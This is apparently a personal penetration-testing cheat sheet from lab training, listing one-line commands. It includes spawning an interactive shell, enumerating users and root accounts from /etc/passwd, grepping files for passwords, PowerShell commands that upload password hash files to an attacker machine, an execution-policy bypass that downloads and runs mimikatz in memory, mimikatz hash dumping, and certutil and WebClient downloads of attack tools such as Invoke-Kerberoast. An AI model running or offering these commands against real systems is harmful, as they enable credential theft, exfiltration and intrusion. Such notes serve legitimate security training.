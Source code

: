 ### Spawn shell via Python
`python -c 'import pty;pty.spawn("/bin/bash")' `
​
### List of users​
`cat /etc/passwd | cut -d: -f1`    
`grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'`        # List of super users
​
### grep for a string in a dir of files
`grep -ls 'pass' ${PWD}/* `

### powershell recursive grep like search
`ls -R -Hidden -EA SilentlyContinue | select-string <search string>`
​
### Powershell to upload to Kali
`PS C​:\Tools\active_directory> powershell (​New​-​Object System​.​Net​.​WebClient​)​.​UploadFile​(​'http://192.168.119.143/upload.php'​, 'C:\Tools\active_directory\hashes'​)`
​
### Powershell to grab remote file and run it in memory
`powershell.exe -exec Bypass -​C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.143:8000/mimikatz.exe');"`
​
### Get password hashes from mimi. 
`lsadump:​:lsa /patch`
​
### Find msfvenom payload
`msfvenom -l payloads | grep linux/x86`
​
### Run burp from command line
`java -jar -Xmx4g ~/OffSec/Burp/burpsuite_community_v2021.12.1.jar`
​
### Fix $PATH on Windows (good if whoami, certutil and other exe's are "not recognized")
`set PATH=%SystemRoot%\system32;%SystemRoot%;` 

### Powershell download from http server 
`powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.143:8000/Invoke-Kerberoast.ps1', 'Invoke-Kerberoast.ps1')`

### Powershell Upload to kali - Make sure apache is running and the upload.php is there! 
`powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.143/upload.php', 'asrep_hashes.txt')`

### Certutil transfer **HIGHLY EFFECTIVE**
`certutil.exe -urlcache -split -f http://192.168.119.143:8000/mimikatz.exe`
